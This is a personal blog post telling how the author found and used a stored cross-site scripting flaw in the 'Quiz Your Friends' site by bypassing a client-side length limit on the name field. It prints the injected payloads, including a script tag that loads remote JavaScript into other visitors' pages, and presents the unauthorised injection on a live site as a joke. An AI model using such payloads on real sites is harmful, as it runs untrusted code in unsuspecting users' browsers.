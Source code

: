```yaml
---
title: "The \"Quiz Your Friends\" XSS Exploit"
layout: post
---
```


Note: I have alerted the administrators of this site multiple times about this vulnerability.
One email was sent many years ago, which is more than enough time for [responsible disclosure](https://en.wikipedia.org/wiki/Responsible_disclosure).

## Background

In early 2014, when my "programming" skills consisted of editing web pages with inspect element, I was sent a link from an old friend in a town about 3 hours away.
This was a link to a quiz about them.
I had to answer as many questions right as I could about them and I got a score at the end based on my answers.
It seemed fun enough, so I went for it.
In the following weeks this quiz website became quite a trend amongst my friend group as we all started making quizes to see how well we all knew eachother.

A few weeks into this trend, I was staying at a friends' place and told him about this site,
so he goes and creates his own quiz and sends it to all his friends, group chats, Google Plus groups, et cetera.

## Hackerman


While filling in my friend's survey I thought it would be
funny for them to know it is me without anyone else knowing.
We were young and had `Inspect Element`ed a few things together,
so it was a safe bet that an HTML joke would let them know.

I decided to write my name like so: `<b>Steve</b>`.
Steve is in reference to the [main character](https://minecraft.gamepedia.com/Player) in the video game Minecraft.

<figure>
  <img src="/assets/img/qyf-xss/2-bold.png">
  <figcaption>
    <p>Me typing in my name as <span class="mono">&lt;b&gt;Steve&lt;/b&gt;</span>.</p>
  </figcaption>
</figure>

Now in theory this should have shown in in the leaderboard as: "&lt;b&gt;Steve&lt;/b&gt;"
However, to my horror and excitement, I saw this in the leaderboard:

<figure>
  <img src="/assets/img/qyf-xss/3-steve-board.png">
  <figcaption>
    <p><span class="mono">&lt;b&gt;Steve&lt;/b&gt;</span> displaying in the leaderboard as bold text: <b>Steve</b></p>
  </figcaption>
</figure>

The text "Steve" showed up **in bold** on the leaderboard.
This told me all I needed to know.
How did this happen? You might wonder.

### Server-Side Validation

Here is a great demonstration why you should do most of your validation on the server side.
As a user, I can edit any of the HTML, CSS, or Javascript your server serves to me.

Quiz your friends uses the `maxlength=20` HTML attribute on the name input field.
Imagine trying to fit in a script tag doing anything useful with 20 characters! Don't forget that includes the `<script>` tag.
That would leave 13 characters for Javascript.
Although I'm sure a genius would be able to [code golf](https://code.golf/) that, I know I couldn't.

Now obviously I can edit any HTML that a server has sent to me.
If I open up my inspect element window, I can go ahead and change that `maxlength` attribute to anything I want.
Let's change it to 100!

<figure>
  <img src="/assets/img/qyf-xss/5-maxlength.png" alt='An image of the Quiz Your Friends name input field with inspect element. THe code reads: <font class="style6"><input class="inputbutton" name="takername" type="text" id="takername" maxlength="20" width="425" placeholder="Your First Name" style="text-align: center; text-decoration:inherit; font-size:38px;" tabindex="-1"></font>'>
  <figcaption>
    Manually changing the maxlength attribute. 
  </figcaption>
</figure>

In theory, there is a way that a site can stop people from just putting in their name of any length: server-side validation.
The server *could* check to see if the input is too long and reject it if it is.
The Quiz My Friends server has *no such checks in place*.
Therefore, I can send an almost arbitrary load to them.
Being able to send something potentially very large (more than a few megabytes) is a vulnerability of its own.
Imagine being able to send entire executable programs as your "name" in one of these quizzes?


## Javascript

So I went on my merry way thinking about ways to use malicious javascript.
Then, I thought that might be mean, so I decided to warn users instead.
I filled in the name with a script tag and a call to `alert()` to warn the user about this site.
I edited the max-length attribute to allow me to type a long string like this:

```
<script>alert('Don\'t use this site. It is not secure!');</script>
```

Sure enough, I got a text from my friend saying: "Tait! I know this is you, why would you do that!"
A bit salty, but who wouldn't be.

## Cross-Site Scripting (XSS)

As my final act, I decided to use a cross-site script that I could edit and have it load with new changes at any time.

I set this as my name:

```
<script src=\"https://tait.tech/assets/js/hacked.js\"></script>
```

This script pops up a warning, telling the user that the site is insecure and it is now redirecting to an article about the attack.
This script redirects to an [older post I made](https://tait.tech/2020/04/25/xss/) about how XSS works.

## Conclusion

Watch out for sketchy websites that may be vulnerable to malicious or insecure sites which are ripe for abuse.
Always check that you are using an encrypted connection, HTTPS.
And if you see any messages warning you that a site is not secure and redirecting you to some random site...
Take their info with a grain of salt.

Happy Hacking, literally :)
